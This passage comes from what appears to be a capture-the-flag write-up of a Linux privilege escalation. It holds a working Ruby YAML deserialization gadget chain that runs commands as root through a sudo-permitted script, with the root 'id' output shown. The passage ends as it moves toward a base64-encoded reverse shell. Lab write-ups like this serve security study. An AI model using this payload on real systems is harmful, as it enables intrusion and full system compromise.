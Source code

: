 > [Insecure deserialization - Theory](https://cspanias.github.io/posts/PS-Insecure-deserialization-Theory/) & [Insecure deserialization - Practice](https://cspanias.github.io/posts/PS-Insecure-deserialization-Practice/).

Let's check with what version we are working with:

```bash
henry@precious:/$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

We can try using just the last payload since the first two are for previous version than the one we have. We can move to the `/tmp` directory and create a `dependencies.yml` file with the payload as its content:

```bash
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The script executes the `id` command, so let's see if that works:

```bash
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
<SNIP>
```

The exploit seems to work just fine since its output includes `uid=0(root) gid=0(root) groups=0(root)`! We can now inject some Ruby reverse shell code instead of the `id` command. After some unsuccessful attempts to catch the shell, we can try base64 encode our payload before sending it. We can easily do that using [revshellgen](https://github.com/t0thkr1s/revshellgen): 
